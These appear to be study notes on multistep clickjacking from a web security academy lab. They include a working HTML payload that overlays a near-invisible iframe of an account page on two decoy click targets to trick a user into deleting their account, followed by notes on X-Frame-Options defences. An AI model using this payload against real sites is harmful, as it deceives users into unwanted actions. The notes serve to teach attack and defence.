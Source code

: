 # Multistep Clickjacking

Manipulation of inputs may require multiple actions. An attacker may want to trick a user to buy something so items need to be added to a basket before the order is placed. The actions can be implemented by using multiple divisions or iframes.

For example, when deleting the account, there may be an extra step asking for confirmation. In that case, an iframe with two clicks could be created such as:

```html
<style>
	iframe {
		position:relative;
		width: 800px;
		height: 600px;
		opacity: 0.0000001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 499px;
		left: 60px;
		z-index: 1;
	}
   .secondClick {
		top: 299px;
		left: 220px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a2900ac04e212198035537800f10083.web-security-academy.net/my-account"></iframe>
```
# X-Frame-Options

This header provides website owners control over the use of iframes and objects so that inclusion of a web page within a frame can be prohibited with the `deny` directive:

- X-Frame-Options: deny

Framing can be restricted to the same origin as the website:

- X-Frame-Options: sameorigin

Or to a named website using the `allow-from` directive:

- X-Frame-Options: allow-from https\://normal-website.com

>[!info]
>It is not implemented consistently across browsers as the `allow-from` directive is not supported in Chrome version 76 or Safari 12. 
# Content-Security-Policy
